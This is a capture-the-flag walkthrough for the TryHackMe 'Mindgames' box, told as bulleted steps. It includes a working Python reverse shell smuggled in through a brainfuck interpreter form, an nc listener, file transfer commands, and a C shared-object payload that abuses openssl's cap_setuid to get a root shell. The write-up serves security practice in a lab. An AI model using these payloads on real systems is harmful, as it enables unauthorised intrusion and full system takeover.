 > No hints. Hack it. Don't give up if you get stuck, enumerate harder
___
- running an initial nmap ```nmap -sV IP -v``` scan I foud ports `80` and `22` open 
- navigating to the webpage, there were a couple of code snippets to run, the and the coding language was brainfuck
- decoding the brainfuck code samples, I found they were written in python (ex// print('Hello, World')
- I used this python code for a reverse shell:
```python
import socket,os,pty;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR IP",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
- pasted it into a brainfuck code generator, and pasted the generated code into the website
- running a listener on my attacking machine `nc -lvnp 7777` I got a reverse shell
```
$ whoami
mindgames

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
mindgames@mindgames:~/webserver$
```
- I CDed into `mindgames` home directory, which is where I found `user.txt` 
- going up the parent home directory, I found one other user, tryhackme
```
mindgames@mindgames:/home$ ls
mindgames  tryhackme
```
- in order to escalate to root, I would usually use commands such as `sudo -l` but since this is a reverse shell and I don't have a password, we're going to need a different method
- the one hint is to enumerate harder, so I decided against bruteforcing ssh passwords
- instead I CDed back into `/webserver` in mindgames home directory (spoiler alert, don't follow the next like 5 steps they did nothing)
```
mindgames@mindgames:~/webserver$ ls -la
ls -la
total 7032
drwxrwxr-x 3 mindgames mindgames    4096 May 11  2020 .
drwxr-xr-x 6 mindgames mindgames    4096 May 11  2020 ..
drwxrwxr-x 2 mindgames mindgames    4096 May 11  2020 resources
-rwxrwxr-x 1 mindgames mindgames 7188315 May 11  2020 server
```
- the resources folder contained the index stysheet and js code, all of which are accessible from the webpage itself so I didn't bother investigating those through the shell
- instead I focused on the gigantic server file
```
mindgames@mindgames:~/webserver$ file server
server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, not stripped
```
- yay...
- transfered the files over
```python3
mindgames@mindgames:~/webserver$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

mymachine > wget http://10.10.24.153:8000/server
```
- running file on my attack machine, it showed the build id which seemed a bit unusual
```
└─$ file server
server: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, Go BuildID=6eWZXU8dxYsVcbX8M-_t/L7HAoBGFkn5le6fY7orV/EsVJ-L3djclt6TZ91pnM/Yqf5bdBbhM5qHpYIoY3Y, not stripped
```
- I used `readelf -a server` to analyze the file further, and found this string at the bottom
```
description data: 36 65 57 5a 58 55 38 64 78 59 73 56 63 62 58 38 4d 2d 5f 74 2f 4c 37 48 41 6f 42 47 46 6b 6e 35 6c 65 36 66 59 37 6f 72 56 2f 45 73 56 4a 2d 4c 33 64 6a 63 6c 74 36 54 5a 39 31 70 6e 4d 2f 59 71 66 35 62 64 42 62 68 4d 35 71 48 70 59 49 6f 59 33 59
```
- decoding it, i found that it was identical to the build id `6eWZXU8dxYsVcbX8M-_t/L7HAoBGFkn5le6fY7orV/EsVJ-L3djclt6TZ91pnM/Yqf5bdBbhM5qHpYIoY3Y`
- the functions section was veryyyy long with a ton of potentially interesting request and commands, but I found the flag sections interesting
```
5822: 00000000004c52e0   121 FUNC    GLOBAL DEFAULT    1 flag.(*intValue).Set
  5823: 00000000004c5360    83 FUNC    GLOBAL DEFAULT    1 flag.(*intValue)[...]
  5824: 00000000004c53c0   121 FUNC    GLOBAL DEFAULT    1 flag.(*int64Valu[...]
  5825: 00000000004c5440    92 FUNC    GLOBAL DEFAULT    1 flag.(*int64Valu[...]
  5826: 00000000004c54a0   121 FUNC    GLOBAL DEFAULT    1 flag.(*uintValue).Set
  ... [ ETC ] ...
```
- i'm not very good at reverse engineering, so it was looking like running the file was my only real option (which i didn't really want to do but wtv)
```
└─$ ./server       
2024/03/02 21:41:00 Listening for requests
```
- at this point I started to think this was the wrong rabbithole to be going down (I was right)
- the python server messed up the shell so I respawned it and decided to search for other methods of priv escalation
```shell
# find suids
find / -user root -perm -u=s 2>/dev/null
```
- this didn't return anything interesting, so I decided to finally give in and just use linpeas, which foud an `openssl` vulnerability
```
[+] Capabilities
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```
- now we generate c code to exploit this (this is the contents of shell.c)
```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    execl("/bin/sh", "sh", NULL);
}
```
- compiled it, transfered it to the reverse shell using a python server (see semi useless steps above if you don't know how to do that)
```
gcc -fPIC -o shell.o -c shell.c
gcc -shared -o shell.so -lcrypto shell.o
```
- then I ran it on the reverse shell
```
mindgames@mindgames:~$ chmod +x shell.so 
mindgames@mindgames:~$ openssl req -engine ./shell.so
root@mindgames:~# cat /root/root.txt
```
- done!
